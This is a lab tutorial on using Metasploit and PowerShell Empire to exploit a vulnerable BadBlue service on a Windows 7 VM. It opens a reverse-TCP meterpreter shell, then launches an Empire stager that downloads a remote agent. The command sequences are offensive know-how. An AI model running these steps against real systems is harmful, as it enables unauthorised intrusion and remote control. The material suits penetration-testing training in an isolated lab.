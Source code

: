 Empire and Metasploit 101




Goal: Use Empire and metasploit in example situation of network exploitation and post-exploitation host enumeration. We will exploit a network service on a Windows 7 VM, and then use our low-privilege shell to then execute an empire powershell stager, which will create an Empire agent on the local Windows 7 VM. After this, we will look through the various options available as an Empire agent.
Following this, we will generate a DLL stager within Empire, and then use our existing meterpreter session on the Windows 7 VM to perform a DLL injection attack, to inject another Empire agent, directly into memory.

Pre-Stuff: Empire is not just for windows. It has python based agents that can run on OS X and Linux. It's communication profile between agents and listeners is configurable, similar to CobaltStrikes. You can use pre-built or custom-made ones to employ such functionality. Empire is designed to stay off disk and in memory as much as possible. Empire does contain modules that will not follow this and will touch disk. For information on Empire Modules, I recommend looking at the Github. That is where you will find the latest supported modules.




Related Links:
* [Metasploit Unleashed Course](https://www.offensive-security.com/metasploit-unleashed/)
* [Empire Tips and Tricks](https://enigma0x3.net/2015/08/26/empire-tips-and-tricks/)

* [Empire Github](https://github.com/EmpireProject/Empire)
* [Meterpreter basics - Metasploit Unleashed](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/)
* [Stagers - Empire](http://www.powershellempire.com/?page_id=104)
* [Agents 101 - powershellempire.com](https://www.powershellempire.com/?page_id=106)


Required Software:
 
Download Windows 7 VM
    * https://developer.microsoft.com/en-us/microsoft-edge/tools/vms/

Software to download/install within the Windows 7 VM:
	* [BadBlue - ExploitDB](https://www.exploit-db.com/exploits/16806/)
		* [Application](https://www.exploit-db.com/apps/396bedff015be885c1719f39f4561081-badblue.tar_.gz)
	* Unzip the `.tar` file with 7zip, and then extract the resulting zip file to end with the installer .exe.

Download Kali VM
	* https://www.offensive-security.com/kali-linux-vmware-virtualbox-image-download/

Commads to run/Software to install within the Kali VM:
    * Update repos
    	* 'apt update && apt upgrade -y'
    * Empire [QuickStart](http://www.powershellempire.com/?page_id=110)
        * https://github.com/EmpireProject/Empire
        	* 'git clone '
        	* 'cd Empire'
        	* './setup/install.sh'
        	* './setup/setup_database.py'
        * Empire is now setup and configured!

I leave it to the reader to import/configure both VMs to their particular desired environment/virtualization platform. For this document, I will assume both machines are within the same subnet of `1.1.254.*.`

Kali VM - 1.1.254.2
Windows 7 VM - 1.1.254.5

Steps:
* Turn on both virtual machines. Ensure everything is working correctly so far.
* Kali:
    * Launch Metasploit
	    	* msfconsole
	    * Launch the postgres DB
	    * Perform a network scan on the windows machine to look for vulnerable services:
	    	* db_nmap -sS -sV --version-intensity=0 -p80 1.1.254.5
	    * Perform a search for the string 'badblue 2.7'
	    * Note the module 'BadBlue 2.72b PassThru Buffer Overflow'
	    * Use/load the module:
	    	* 'use exploit/windows/http/badblue_passthru'
	    * Display the available targets
	    	* 'show targets'
	    * Display the available options
	    	* 'show options'
		* Set RHOST
			* 'set RHOST 1.1.254.5'
		* Set a payload
			* For this, we'll use the regular reverse_tcp meterpreter
			* 'set payload windows/meterpreter/reverse_tcp'
		* Show payload options
			* 'show payload options'
		* Set LHOST for the payload(needs to callback to somewhere)
			* 'set LHOST 1.1.254.2'
	    * Show options one more time to make sure everything is correct
	    	* 'show options'
	    * If everything is good, just type:
	    	* 'run' and hit enter.
	    * Congratulations! You should now have an active meterpreter session and be sitting at a meterpreter prompt.
	    * Try typing 'help' to see available commands
	    	* [Meterpreter basics - Metasploit Unleashed](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/)
	    	* [Meterpreter Documentation](https://github.com/rapid7/metasploit-framework/wiki/Meterpreter)
	    * For now, we're going to leave this be. Simply open another terminal, and go onto the next part.
	    -----------

	* Empire
	    * cd into the directory where you downloaded/installed Empire
	    * run Empire with the command ./empire
	    * About Empire: 
	    	* General workflow: Create listener -> Create stager -> Stager instantiates/pulls down/runs an Agent
	        * Creating listeners in Empire is done by entering the listener menu, setting the appropriate options, and then issuing the command 'execute'
	    * Enter the 'listener' menu
	    	* 'listeners'
	    * Show the options available for listeners
	    	* 'show options'	
	    * Set your desired option changes
	    	* 'set Name Test1A'
	    * Run Listener
	    	* 'run'
	    * This instantiates the listener and causes it to start listening for agents
	    -----------
	    * Generate a Stager [Stagers - Empire](http://www.powershellempire.com/?page_id=104)
	    	* Generating agents in Empire is similar to creating listeners
	    * enter the command
	    	* 'back'
	    * This should put you back at the Empire main menu. If not, keep issuing the back command until you find yourself at the main menu
	    * Once at the main menu, type the command
	    	* 'usestager'
	    	* then press tab twice
	    	* This will list all available stagers for use
	    	* For now, we are only concerned with the 'launcher' stager
	    * Type the command
	    	* 'usestager launcher'
	    * You will now be in the 'stager/launcher' menu
	    * Type the command
	    	* 'options'
	    	* This will show you all available options for the currently selected stager
	    * We want to set the options 'Listener' and 'OutFile'
	    * To enable the launcher to use our previously configured listener, issue the command
	    	* 'set Listener Test1A'
	    		* This will set our previously created listener as our new agents listener
	    * Type the command
	    	* 'set OutFile /tmp/test1'
		    	* This will store the stager command generated in a text file. After generating the stager command, we will copy it from the designated file and run it. 
	    * Verify everything is correct with the command
	    	* 'options'
		* Once verified, now type 
			* 'generate'
		* This will generate your configured&customized stager. It will be stored at the previously set file location, '/tmp/test'.
		* We then want to navigate to the txt file, open it, and copy the single line of txt. This is the encoded powershell command that will download an agent from your listener 
		-----------
		* Instantiating the agent
		* Now, go back to your meterpreter session you created earlier, and issue the command
			* 'shell'
				* This will drop you to a system shell prompt. Perfect for executing that one line powershell command.
		* Paste the command you copied earlier into the current shell prompt and hit enter. You should receive no confirmation on your windows command prompt. You should however receive a notice on your other command prompt, that you have a new agent in Empire!
		-----------
		* Interacting with the agent
		* At the Empire command menu, you should see an alert for a new agent, with a name consisting of a series of semi-random alphanumeric characters
		* To interact with and issue commands to your new agent, you must issue the following command from the main menu of the Empire command menu
			* 'agents'
		* Then
			* 'interact 'Agent_Name_Here''
		* At this point, you will be issuing commands to the selected agent. Empire is *NOT* a real time tool. Empire works by giving agents tasks to perform, and then the agents report the results to the corresponding listener. Users can issue commands and have near-real time response times through an agent, however, they should not be thought of as a real-time interactive terminals, and more as a errand-boys running tasks.
		------------
		* Using the Agent
		* Using agents are accomplished by issuing them tasks. 
		* [Agents 101 - powershellempire.com](https://www.powershellempire.com/?page_id=106)
		* Specifically, the 'usemodule' command is of specific interest.
		* If we double tap tab here,we can see all available command modules available currently.
			* Or we can check Empire's current main modules on github: [Link](https://github.com/EmpireProject/Empire/tree/master/data/module_source)
			* Most of them are very nicely documented within the code/have a brief description at the top of the file. If you are running it, you should probably know what it does.



